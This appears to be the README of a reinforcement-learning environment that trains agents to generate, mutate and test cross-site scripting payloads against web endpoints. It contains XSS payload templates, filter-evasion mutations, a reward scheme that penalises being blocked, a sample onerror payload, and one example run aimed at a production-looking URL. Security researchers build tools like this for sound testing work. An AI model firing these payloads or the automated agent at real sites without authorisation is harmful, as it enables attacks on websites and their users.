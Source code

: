 # Reinforcement Learning XSS Detection Environment

A Gymnasium-compatible environment for training RL agents to detect XSS vulnerabilities through payload generation and testing.

## Key Features

- 🎯 **Target-Agnostic Design**: Works with any HTTP endpoint via `target_url` parameter
- 🧬 **Hybrid Payload Generation**: Template-based + mutation engine with optional LLM augmentation
- 📊 **Observable State**: 
  ```python
  observation_space = Box([status_code, is_blocked, is_vulnerable, payload_length])
  ```

- ⚖️ Ethical Controls: Built-in rate limiting (request_delay) and duplicate detection

## Quick Start
Prerequisites
```bash
pip install gymnasium stable-baselines3 requests numpy
```

## Basic Usage
```python
from xss_env import GenerativeXSSEnv

# Initialize environment
env = GenerativeXSSEnv(target_url="http://test.com/search")

# Sample action
action = np.array([1, 3, 2])  # [strategy, payload_idx, mutation_idx]
obs, reward, done, info = env.step(action)
```

## Training Modes
1. Standard Training
```bash
python xss_env.py --mode train --target http://localhost:5000/search
```

2. Hyperparameter Optimization
```bash
python xss_env.py --mode optimize --target http://localhost:5000/search
```

3. Model Testing
```bash
python xss_env.py --mode test --target http://prod.com/search --model-path xss_agent_optimized.zip
```

## Action Space
```python
action_space = MultiDiscrete([
    3,   # 0=Base payload, 1=Replay generated, 2=Generate new
    10,  # Payload index
    len(mutations)  # Mutation index
])
```

## Reward Function

|Scenario|Reward|
|---|---|
|New vulnerability found|+15.0|
|Known vulnerability|+10.0|
|Request blocked (403/5xx)|-5.0|
|Normal failed request|-0.1|

## Payload Generation
```python
# Template examples
templates = [
    "<{tag} {event}='{code}'>",
    "<iframe srcdoc=\"&lt;script&gt;{code}&lt;/script&gt;\">"
]

# Mutation examples
mutations = [
    lambda p: p.replace("(", "%28"),
    lambda p: p.upper(),
    lambda p: p.replace(" ", "/**/")
]
```

## Monitoring Output
```text
Step: 42  | Strategy: ReplayGen | Status: 200 | Vuln: True  | Reward: 15.0 | Payload: <img src=x onerror='prompt(1)'>
```

## Ethical Considerations
```python
# Always:
env = GenerativeXSSEnv(
    target_url=authorized_target,
    request_delay=0.5  # >=500ms between requests
)
```

## File Outputs
- `successful_payloads.txt`: Logs all unique vulnerable payloads
- `xss_agent_*.zip`: Saved model checkpoints